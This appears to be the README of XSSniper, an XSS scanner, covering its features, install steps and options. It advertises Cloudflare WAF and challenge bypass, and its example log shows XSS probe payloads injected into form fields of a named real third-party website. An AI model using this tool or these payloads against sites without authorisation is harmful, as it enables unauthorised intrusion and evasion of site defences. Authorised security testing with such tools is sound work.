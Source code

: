 # XSSniper

<img src="background.png" width="900">

## A XSS scanner with WAF bypass features

<!-- FEATURES -->
## Features:

- Cloudflare WAF and JS challenge bypass with user-agent rotation and cloudscraper
- Finds potentially vulnerable JavaScript code and searches for injection points
- Creates a PoC for XSS and tests it automatically
- Written in Python
- Lots of payloads

<!-- INSTALLATION -->
## Installation:

    $ git clone https://github.com/umutcamliyurt/XSSniper.git
    $ cd XSSniper/
    $ sudo apt-get install python3 python3-pip
    $ pip3 install -r requirements.txt
    $ python3 XSSniper.py

<!-- USAGE -->
## Usage:

### Options:

```
python3 XSSniper.py --help
Loaded 138 payloads from 'payloads.txt'.
usage: XSSniper [-h] [-c COOKIE] [-l LOGFILE] [--poc [POC]] [--no-cookies] [--keep-going] [--delay DELAY] url

positional arguments:
  url                   Target URL

options:
  -h, --help            show this help message and exit
  -c, --cookie COOKIE   Cookie header
  -l, --logfile LOGFILE
  --poc [POC]           Enter PoC mode (optionally supply a JSON file path)
  --no-cookies          Clear cookies per payload injection
  --keep-going          Continue testing all injection points after finding XSS
  --delay DELAY         Delay in seconds after page load before testing (default: 5)
```
<!-- EXAMPLE -->
### Example:

```
python3 XSSniper.py https://www.help.tinder.com --poc
Loaded 138 payloads from 'payloads.txt'.
[DEBUG] Using User-Agent: Mozilla/5.0 (Windows NT 11.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.54 Safari/537.36
2025-07-07 16:26:41,332 [INFO] Loaded 200 injection points.
2025-07-07 16:26:41,333 [INFO] Running PoC tests in normal mode. Keep going: False. Delay: 5s
[DEBUG] Using User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
2025-07-07 16:26:54,861 [INFO] Detected 2 forms.
2025-07-07 16:27:06,057 [INFO] Injecting payload '<script>alert("XSS by Nemesis")</script>' into element <input type='hidden' name='utf8'>
2025-07-07 16:27:06,136 [INFO] Injecting payload '<script>alert("XSS by Nemesis")</script>' into element <input type='search' name='query'>
2025-07-07 16:27:24,741 [INFO] Injecting payload '"<img src=x onerror=alert("XSS by Nemesis")>' into element <input type='hidden' name='utf8'>
2025-07-07 16:27:24,826 [INFO] Injecting payload '"<img src=x onerror=alert("XSS by Nemesis")>' into element <input type='search' name='query'>
2025-07-07 16:27:44,072 [INFO] Injecting payload '';alert("XSS by Nemesis")//' into element <input type='hidden' name='utf8'>
2025-07-07 16:27:44,138 [INFO] Injecting payload '';alert("XSS by Nemesis")//' into element <input type='search' name='query'>
```

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.